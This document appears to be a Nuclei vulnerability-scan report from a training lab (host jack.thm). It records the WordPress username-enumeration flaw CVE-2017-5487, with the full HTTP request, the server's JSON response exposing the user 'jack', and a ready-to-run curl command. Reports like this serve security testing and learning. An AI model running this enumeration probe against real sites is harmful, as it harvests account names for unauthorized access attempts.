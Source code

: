 ### WordPress Core < 4.7.1 - Username Enumeration (CVE-2017-5487) found on http://10.10.113.121
---
**Details**: **CVE-2017-5487**  matched at http://10.10.113.121

**Protocol**: HTTP

**Full URL**: http://10.10.113.121/wp-json/wp/v2/users/

**Timestamp**: Thu May 5 17:54:52 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Core < 4.7.1 - Username Enumeration |
| Authors | manas_harsh, daffainfo, geeknik |
| Tags | cve, cve2017, wordpress |
| Severity | medium |
| Description | WordPress Core < 4.7.1 is susceptible to user enumeration because it does not properly restrict listings of post authors via wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API, which allows remote attackers to obtain sensitive information via a wp-json/wp/v2/users request. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| CWE-ID | [CWE-200](https://cwe.mitre.org/data/definitions/200.html) |
| CVE-ID | [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-5487) |
| CVSS-Score | 5.30 |

**Request**

```http
GET /wp-json/wp/v2/users/ HTTP/1.1
Host: 10.10.113.121
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**

```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 571
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages
Allow: GET
Content-Type: application/json; charset=UTF-8
Date: Thu, 05 May 2022 16:54:52 GMT
Link: <http://jack.thm/index.php/wp-json/>; rel="https://api.w.org/"
Server: Apache/2.4.18 (Ubuntu)
Vary: Origin
X-Content-Type-Options: nosniff
X-Robots-Tag: noindex
X-Wp-Total: 1
X-Wp-Totalpages: 1

[{"id":1,"name":"jack","url":"","description":"","link":"http:\/\/jack.thm\/index.php\/author\/jack\/","slug":"jack","avatar_urls":{"24":"http:\/\/1.gravatar.com\/avatar\/72b66f40049b0711beba91c1d56c9325?s=24&d=mm&r=g","48":"http:\/\/1.gravatar.com\/avatar\/72b66f40049b0711beba91c1d56c9325?s=48&d=mm&r=g","96":"http:\/\/1.gravatar.com\/avatar\/72b66f40049b0711beba91c1d56c9325?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/jack.thm\/index.php\/wp-json\/wp\/v2\/users\/1"}],"collection":[{"href":"http:\/\/jack.thm\/index.php\/wp-json\/wp\/v2\/users"}]}}]
```

**Extra Information**

**Extracted results**:

- jack


References: 
- https://www.exploit-db.com/exploits/41497
- https://nvd.nist.gov/vuln/detail/cve-2017-5487

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36' 'http://10.10.113.121/wp-json/wp/v2/users/'
```
---
Generated by [Nuclei 2.6.9](https://github.com/projectdiscovery/nuclei)